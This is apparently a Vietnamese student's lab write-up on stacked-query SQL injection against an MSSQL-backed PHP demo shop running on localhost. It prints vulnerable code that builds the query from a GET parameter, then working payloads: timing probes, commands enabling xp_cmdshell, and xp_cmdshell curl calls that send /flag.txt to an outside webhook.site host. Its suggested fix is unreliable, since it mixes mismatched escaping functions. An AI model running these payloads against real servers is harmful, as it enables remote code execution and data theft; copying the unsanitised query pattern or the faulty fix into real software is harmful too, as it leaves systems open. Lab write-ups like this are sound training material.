 ### Tìm hiểu về SQL Injection thông qua Stacked query, demo trên MSSQL

- Stacked Query là một kỹ thuật SQL injection trong đó người tấn công thêm một hoặc nhiều câu lệnh SQL vào sau câu lệnh SQL gốc, từ đó thực hiện nhiều hành động trong một lần thực thi.



# Link demo : 
# Cách khắc phục :

- Hoặc làm sạch đầu vào   $cleaned_username = sqlsrv_real_escape_string($conn, $name);
$cleaned_password = mysqli_real_escape_string($conn, $password);
- Và tìm hiểu các CVE của các phiên bản để tránh được lỗi này có thể xảy ra.


+ Bắt đầu vào với một giao diện như trên
![Alt text](./imageStackQuery/image.png)

- Đây là đoạn code bị dính lỗi

<?php
require_once "../config/connectMssql.php";

if (isset($_GET['name'])) {
    global $conn;
    $name = $_GET['name'];
    $tsql = "SELECT * FROM $name";

    $stmt = sqlsrv_query($conn, $tsql);
    if( $stmt === false )
    {
        echo "Lỗi truy vấn.</br>";
        die( print_r( sqlsrv_errors(), true));
    }

    if ($stmt) {
           while( $row = sqlsrv_fetch_array($stmt, SQLSRV_FETCH_ASSOC) ){
            echo '
                <div class="mt-56 bg-white rounded shadow dark:bg-gray-700">
                    <div class="relative z-20 p-6 group">
                        <div class="relative block h-64 mb-4 -mt-56 overflow-hidden rounded -top-full ">
                            <img class="object-cover w-full h-full transition-all group-hover:scale-110"
                                
                                 
                        src="https://pplay.vn/media/catalog/product/cache/1/image/485x440/9df78eab33525d08d6e5fb8d27136e95/7/0/70222-1.jpg" alt="">
                            <div class="absolute flex flex-col top-4 right-4">
                                <!-- Wishlist and Cart buttons here -->
                            </div>
                        </div>
                        <a href="#">
                            <h2 class="mb-2 text-xl font-bold text-black dark:text-white">
                                ' . $row['name'] . '
                            </h2>
                        </a>
                        <p class="mb-3 text-lg font-bold text-blue-500 dark:text-blue-300 ">
                            <span>$' . $row['sale'] . '.00</span>
                            <span class="text-xs font-semibold text-gray-400 line-through ">$' . $row['price'] . '.00</span>
                        </p>
                        <div class="flex gap-1 text-orange-400">
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star-fill" viewBox="0 0 16 16">
                   <path
                       d="M3.612 15.443c-.386.198-.824-.149-.746-.592l.83-4.73L.173 6.765c-.329-.314-.158-.888.283-.95l4.898-.696L7.538.792c.197-.39.73-.39.927 0l2.184 4.327 4.898.696c.441.062.612.636.282.95l-3.522 3.356.83 4.73c.078.443-.36.79-.746.592L8 13.187l-4.389 2.256z" />
               </svg>
               <svg xmlns="http://www.w3.org/2000/svg" width="16" height="16" fill="currentColor"
                   class="bi bi-star" viewBox="0 0 16 16">
                   <path
                       d="M2.866 14.85c-.078.444.36.791.746.593l4.39-2.256 4.389 2.256c.386.198.824-.149.746-.592l-.83-4.73 3.522-3.356c.33-.314.16-.888-.282-.95l-4.898-.696L8.465.792a.513.513 0 0 0-.927 0L5.354 5.12l-4.898.696c-.441.062-.612.636-.283.95l3.523 3.356-.83 4.73zm4.905-2.767-3.686 1.894.694-3.957a.565.565 0 0 0-.163-.505L1.71 6.745l4.052-.576a.525.525 0 0 0 .393-.288L8 2.223l1.847 3.658a.525.525 0 0 0 .393.288l4.052.575-2.906 2.77a.565.565 0 0 0-.163.506l.694 3.957-3.686-1.894a.503.503 0 0 0-.461 0z" />
               </svg>
           </div>
                    </div>
                    
                </div>
            ';
        }
    } else {
        echo '<p class="font-bold text-center mt-48 text-xl">Invalid name or your hack me!!!</p>';
    }
    sqlsrv_free_stmt( $stmt);
    sqlsrv_close( $conn);
}
?>



<?php


//     $tsql = "SELECT sale FROM items; WAITFOR DELAY '0:0:10'";
    
//     $stmt = sqlsrv_query($conn, $tsql);
//     if( $stmt === false )
//     {
//         echo "Lỗi truy vấn.</br>";
//         die( print_r( sqlsrv_errors(), true));
//     }

//     $rows = [];
//     while( $row = sqlsrv_fetch_array($stmt, SQLSRV_FETCH_ASSOC) )
//     {
//         $rows[] = $row;
//     }
//     print_r($rows);

//     sqlsrv_free_stmt( $stmt);
//     sqlsrv_close( $conn);
?>

- Có vẻ như là trang web này lấy giá trị param name và cho vào trong câu truy vấn
                                        $tsql = "SELECT * FROM $name";
- Bởi vì được truyền trực tiếp nên em có thể đoán là bị dính lỗi sql injection
- Em sẽ khai thác theo hướng thực thi shell trong MSSQL đây là một dạng stack query
- Vào trong burpsuite và chọn request bị dính lỗi như sau:
![Alt text](./imageStackQuery/image-1.png)

- Em thử thêm dấu ';' vào đằng sau và request vẫn thực hiện bình thường
![Alt text](./imageStackQuery/image-2.png)
- Sau đó em dùng payload "; WAITFOR DELAY '0:0:5'; -- "
- Em nhận lại được response sau 5s
![Alt text](./imageStackQuery/image-3.png)
- Điều này chứng tỏ là em có thể thực hiện chồng query ở trong trường hợp này
- Em muốn thực hiện được xp_cmdshell trong truy vấn để lấy dữ liệu
+ Ban đầu em sẽ phải cài đặt lại setting để có thể thực hiện shell

em tham khảo bài viết này:  https://medium.com/@notsoshant/a-not-so-blind-rce-with-sql-injection-13838026331e
Và dùng payload :  ";EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE; WAITFOR DELAY '0:0:5'; --"

- Và em nhận được kết quả sau 5s  chứng tỏ là đã reconfig thành công
![Alt text](./imageStackQuery/image-4.png)

- Tiếp sau đó em thực thi shell curl đến webhook của em

 http://localhost/task2_KCSC/demo/stackQuery/index.php?name=items;EXEC%20xp_cmdshell%20%27curl+https://webhook.site/0e0a8778-5ef0-4657-8aec-84076f5a552e;%20WAITFOR%20DELAY%20%270:0:5%27;%20--%20%22

Và vào webhook em nhận được
![Alt text](./imageStackQuery/image-5.png)
- em tính revershell trên này mà để hôm sau em chuyển qua linux cho dễ ạ:v

Em dùng payload này để lấy thông tin file flag.txt
;EXEC%20xp_cmdshell%20%27curl+-X+POST+--data+"@/flag.txt"+-H+"Content-Type:+application/data"+https://webhook.site/0e0a8778-5ef0-4657-8aec-84076f5a552e%27;%20WAITFOR%20DELAY%20%270:0:5%27;%20--%20%22
![Alt text](./imageStackQuery/image-6.png)
Và kết quả:
![Alt text](./imageStackQuery/image-7.png)
Và em nhận được thông tin vậy là em đã RCE được sever @@